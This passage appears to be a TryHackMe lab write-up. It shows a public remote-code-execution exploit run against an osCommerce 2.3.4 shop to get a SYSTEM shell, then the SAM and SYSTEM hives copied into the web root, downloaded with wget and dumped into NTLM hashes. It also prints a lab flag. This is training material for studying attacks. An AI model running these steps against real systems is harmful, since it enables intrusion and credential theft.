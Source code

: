 After browsing all the shares accessible anonymously, there's nothing really interesting

### Web Enumeration

#### Port 443

There's an OS Commerce online shop at https://2.2.2.2/oscommerce/2.3.4/catalog

Check for known exploit :

```
$ searchsploit oscommerce | grep '2.3.4'
osCommerce 2.3.4 - Multiple Vulnerabilities                      | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                    | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                 | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                  | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting     | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                       | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                       | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                   | php/webapps/50128.py
```

## Exploitation && Foothold && Pwn

```
$ python3 /usr/share/exploitdb/exploits/php/webapps/50128.py http://$ip:8080/oscommerce-2.3.4/catalog   
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system
```

We got a shell of the target machine as "nt authority/system" which mean we already own the machine:

```
RCE_SHELL$ more c:\users\administrator\desktop\root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

Next we need to get the hash for 'lab' user and crack it. Since we already have a root foothold on the machine, we just need to export and copy SYSTEM/SAM into the site root directory:

```
RCE_SHELL$ reg save HKLM\SAM C:\xampp\htdocs\oscommerce-2.3.4\sam
The operation completed successfully.

RCE_SHELL$ reg save HKLM\SYSTEM C:\xampp\htdocs\oscommerce-2.3.4\system
The operation completed successfully.
```

```
$ wget http://10.10.0.86:8080/oscommerce-2.3.4/system
2022-01-14 13:39:08 (414 KB/s) - 'system' saved [12804096/12804096]

$ wget http://10.10.0.86:8080/oscommerce-2.3.4/sam
2022-01-14 13:39:21 (25.0 KB/s) - 'sam' saved [24576/24576]

$ samdump2 ./system ./sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```
